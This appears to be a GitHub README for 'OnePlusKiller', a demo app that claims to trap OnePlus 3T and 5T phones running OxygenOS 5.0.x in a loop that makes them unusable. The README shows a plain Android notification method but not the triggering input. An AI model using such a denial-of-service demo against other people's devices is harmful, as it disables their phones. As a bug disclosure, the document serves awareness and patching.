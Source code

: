 # OnePlusKiller
This is a simple demo app that show how you can easily destroy OnePlus system (tested on 3T and 5T) running android 8.0.0 OxygenOS 5.0.1 or 5.0.4
This demo app will keep OnePlus in loop and the device won't be functional.

This lines of code make it happen:

``` java
    private void sendNotification(String title, String content) {
        NotificationManager mNotificationManager = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);
        // Android O requires a Notification Channel.
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            CharSequence name = getString(R.string.app_name);
            // Create the channel for the notification
            NotificationChannel mChannel = new NotificationChannel(CHANNEL_ID, name, NotificationManager.IMPORTANCE_DEFAULT);
            // Set the Notification Channel for the Notification Manager.
            if (mNotificationManager != null) {
                mNotificationManager.createNotificationChannel(mChannel);
            }
        }
        NotificationCompat.Builder builder = new NotificationCompat.Builder(this, CHANNEL_ID);
        // Define the notification settings.
        builder.setSmallIcon(R.mipmap.ic_launcher)
                .setContentTitle(title)
                .setContentText(content);
        // Dismiss notification once the user touches it.
        builder.setAutoCancel(true);
        // Issue the notification
        if (mNotificationManager != null) {
            mNotificationManager.notify(0, builder.build());
        }
    }
```

![Alt text](/Screenshot_20180320-092504.jpg "Screenshot")


